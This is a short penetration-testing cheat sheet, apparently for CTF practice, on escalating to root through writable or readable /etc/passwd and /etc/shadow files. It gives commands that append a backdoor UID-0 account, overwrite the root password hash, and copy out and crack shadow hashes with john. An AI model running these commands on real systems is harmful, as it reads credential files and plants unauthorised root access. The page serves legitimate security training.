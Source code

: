 # /etc/shadow & /etc/passwd

in a real life scenario its really uncommon to see /etc/passwd or /etc/shadow files with write access for any user other than root.

the methods shown here are mostly seen in easy or intermediate level CTFs but its still good to know these.

## Add /etc/passwd new root user

if we have write permission to /etc/passwd we can add a new root user with password hash and the right format\
\
&#x20;first we create a hash for our root user password:\
\
&#x20;`openssl passwd evil`\
` echo "root2:[password hash]:0:0:root:/root:/bin/bash" >> /etc/passwd`

now login using the new root account:

![](../../../.gitbook/assets/etc1.png)

## Change the /etc/shadow root hash

if we have write access to /etc/shadow file we can add a new password hash for the root user:

#### `mkpasswd -m sha-512 “new password”`

replace the root hash with this new hash and login:

![](../../../.gitbook/assets/etc2.png)

## Hash cracking

if the /etc/shadow is readable copy the root user hash to the local system:

#### `ls -l /etc/shadow` `head -n 1 /etc/shadow`

Crack the password hash using john:

#### `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt` ` john --format=sha512crypt hash.txt --show`

#### `unshadow /etc/passwd /etc/shadow > hash`

{% hint style="info" %}
#### `if the "unshadow" command ins not available on target system just copy the content of both files to your own machine and run unshadow on them or just install the unshadow tool on victim machni using apt. remember the order of files is important when unshadowing. /etc/passwd is always first and then there is /etc/shadow.`
{% endhint %}








